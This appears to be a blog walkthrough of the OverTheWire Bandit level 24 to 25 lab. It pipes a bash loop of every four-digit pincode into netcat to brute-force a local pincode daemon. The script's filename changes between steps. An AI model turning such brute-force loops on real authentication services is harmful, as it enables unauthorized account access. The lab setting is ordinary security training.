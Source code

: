 ```yaml
---
title: OverTheWire Bandit Level 24 -> 25
author: Michael McDonagh
pubDatetime: 2025-03-01T22:55:00Z
slug: bandit-25
featured: false
draft: false
tags:
  - overthewire
  - bandit
  - linux
ogImage: ""
description: Solution for OverTheWire Bandit level 25 challenge.
---
```


## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

---

## Walkthrough

Solution for the Overthewire.org [Bandit level 24 -> 25](https://overthewire.org/wargames/bandit/bandit25.html)

Login to the server using the password obtained from the previous level [Bandit level 23 -> 24](/posts/overthewire/bandit-24).  

username: `bandit24`  

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

For this challenge we need to send a password to a specific port on localhost, we have done this before on previous levels but the difference this time is that we need to send a 4 digit pincode with the password.  
Unfortunately we do not know what the pincode is so we will need to try all possible combinations until we get the right one.

The first thing to do is to connect to port 30002 and see what it is doing.  
We can use netcat to connect to port 30002 on localhost.

```bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. 
Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTr########################## 1234
Wrong! Please enter the correct pincode. Try again.

Fail! You did not supply enough data. Try again.
UoMYTr 124
Wrong! Please enter the correct current password. Try again.

bandit24@bandit:~$
```

What we can see is that the daemon running on port 30002 wants the data entered in a specific format.  
```<BANDIT24 PASSWORD> <4 DIGIT PIN>```

The daemon first checks if the password is correct before checking the pincode.  
If the password is incorrect we get a message stating that the password was incorrect. The pincode is not checked.  
If the password is correct and the pincode is incorrect we get a different message stating the pincode is incorrect.
Since we are using the same password used to login to this level we should not see the password incorrect message.

The daemon wants a 4 digit pincode so we need to check all pincodes from 0000 to 9999 to find the correct one.  
Doing this by hand would take a long time (10,000 pincodes to check). It is more efficient to create a program to do this for us.

First lets create a directory in `/tmp` to work from

```bash
bandit24@bandit:~$ mkdir /tmp/work_dir
bandit24@bandit:~$ cd /tmp/work_dir
bandit24@bandit:/tmp/work_dir$
```

Now to create a bash script to create all 10,000 password pincode combinations we need to test.
I used vim to create a file try_passwords.sh and wrote this code into it.

```bash
#!/bin/bash

for i in {000..9999}
do
    echo UoMYTr************************** $i 
done
```

The code will create all 4 digit pincodes we need.
Next we need to give the file execute permissions

```bash
bandit24@bandit:/tmp/work_dir$ chmod +x try_password.sh
```

Now all thats left is to run the bash script and send it's output to netcat.  
This will run for a while as it is trying 10,000 pincodes but eventually you will see the correct message and get the password for bandit25.

```bash
bandit24@bandit:/tmp/work_dir$ ./try_pass.sh | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O5##########################

Exiting.
bandit24@bandit:/tmp/work_dir$
```
